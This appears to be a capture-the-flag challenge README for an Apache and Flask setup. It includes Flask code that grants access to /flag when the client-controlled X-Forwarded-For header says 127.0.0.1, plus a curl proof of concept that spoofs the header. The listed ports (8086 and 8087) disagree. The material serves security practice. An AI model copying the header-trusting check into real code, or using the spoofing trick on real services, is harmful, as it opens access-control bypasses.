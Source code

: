 ### apache + flask

try to access /flag from 127.0.0.1.

### Usage
Build
```
docker-compose up
```

Go http://127.0.0.1:8086/

### hint
``` python
@app.route('/flag')
def flag():

    src_ip = None
    if 'x-forwarded-for' in request.headers:
        match_ip = re.match('[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}', request.headers['x-forwarded-for'])
        if match_ip is not None:
            src_ip = match_ip.group()

    if src_ip is None:
        src_ip = request.remote_addr

    if src_ip == '127.0.0.1':
        return open('flag','r').read()
    else:
        return 'IP From %s is forbidden' % src_ip
```

### POC
``` bash
curl "http://127.0.0.1:8087/flag" -H 'X-Forwarded-For: 127.0.0.1'
```